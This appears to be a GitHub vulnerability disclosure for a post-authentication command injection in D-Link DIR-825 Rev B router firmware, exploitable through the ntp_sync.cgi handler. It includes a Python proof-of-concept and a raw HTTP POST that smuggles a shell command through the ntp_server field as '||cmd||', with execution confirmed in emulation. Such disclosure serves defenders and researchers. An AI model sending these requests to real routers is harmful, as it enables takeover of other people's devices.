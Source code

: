 ### command injection
```
there is a command injection vulnerability that can cause any system command to be executed after user authentication 

download link: ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-825/REVB/

Vulnerability location: file:  /sbin/httpd  function:sub_414134 ntp_sync.cgi

The attacker calls this function by sending a post packet to the http://ip/ ntp_sync.cgi page.

The program will call the system function with the value of ntp_server in the post package.

```

```
Post package structure
postData = {
	' ntp_server ':cmd
	}
response = requests.post('http://192.168.0.1/ntp_sync.cgi ',data=postData)

```

```
Http message:
POST /ntp_sync.cgi  HTTP/1.1
Host: 192.168.113.130
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.113.130/
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
ntp_server=||cmd||

```
![images](https://github.com/WhooAmii/iot/blob/master/DIR-825/11.png)

![images](https://github.com/WhooAmii/iot/blob/master/DIR-825/12.png)

This is the result I got from the qemu simulation environment. 	The input parameters are executed by the system function.

![images](https://github.com/WhooAmii/iot/blob/master/DIR-825/13.png)
